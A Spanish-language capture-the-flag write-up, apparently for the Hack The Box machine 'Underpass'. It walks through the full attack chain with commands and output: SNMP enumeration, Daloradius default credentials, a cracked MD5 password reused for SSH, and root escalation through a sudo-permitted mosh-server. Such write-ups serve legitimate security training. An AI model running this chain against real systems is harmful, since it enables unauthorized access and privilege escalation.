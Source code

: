# Underpass - Writeup

## Información Inicial
- **IP objetivo:** 10.10.11.48
- **Servicios detectados:**  
  - HTTP (Daloradius web interface)  
  - SNMP (UDP 161)  
  - SSH (posterior acceso con credenciales)  

## Enumeración
Escaneo inicial con Nmap:  
```bash
nmap -p- --min-rate 4000 --open -sC -sV -sS -Pn 10.10.11.48 -oN nmap
```

Se identificó servicio SNMP abierto:  
```bash
nmap --top-ports 5000 --open -sU --min-rate 5000 10.10.11.48
```

Resultado:  
```
161/udp open  snmp
```

Con `snmpwalk` se obtuvo información sensible:  
```bash
snmpwalk -v 2c -c public 10.10.11.48 | tee snmp_data
```
Salida:  
```
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
```

## Explotación
Se detectó aplicación web Daloradius en:  
- `http://10.10.11.48/daloradius/app/operators/home-main.php`  
- `http://10.10.11.48/daloradius/app/users/login.php`  

Credenciales por defecto:  
```
administrator | radius
```

Además, en la base de usuarios apareció:  
```
svcMosh : 412DD4759978ACFCC81DEAB01B382403
```

Identificado como hash MD5 → crackeado con CrackStation:  
```
underwaterfriends
```

Acceso SSH:  
```bash
ssh svcMosh@10.10.11.48
Password: underwaterfriends
```

## Post-Explotación
Verificación de permisos SUID:  
```bash
find / -perm -4000 2>/dev/null
```

Chequeo de privilegios sudo:  
```bash
sudo -l
```
Salida:  
```
User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

## Escalada de Privilegios
Se abusa del binario permitido `mosh-server`:  
```bash
sudo -u root /usr/bin/mosh-server
```

El comando devuelve clave de sesión:  
```
MOSH CONNECT 60001 QFXUwUd93kYksYrm7tjyiw
```

Explotación de variable de entorno:  
```bash
MOSH_KEY=QFXUwUd93kYksYrm7tjyiw mosh-client 127.0.0.1 60001
```

Esto permite ejecutar sesión como root.  

## Conclusión
La máquina Underpass presentaba:
1. **SNMP expuesto** con información sensible.  
2. **Credenciales por defecto** en Daloradius.  
3. **Hash MD5 crackeable** que permitió acceso SSH.  
4. **Abuso de sudo en mosh-server** para escalar a root.  

### Vector final:
SNMP → Daloradius → Credenciales → SSH → Sudo mosh-server → Root  

## Herramientas utilizadas
- Nmap
- Feroxbuster
- snmpwalk
- CrackStation
- SSH
- Sudo exploitation

---
**Rooted by: chepeto**
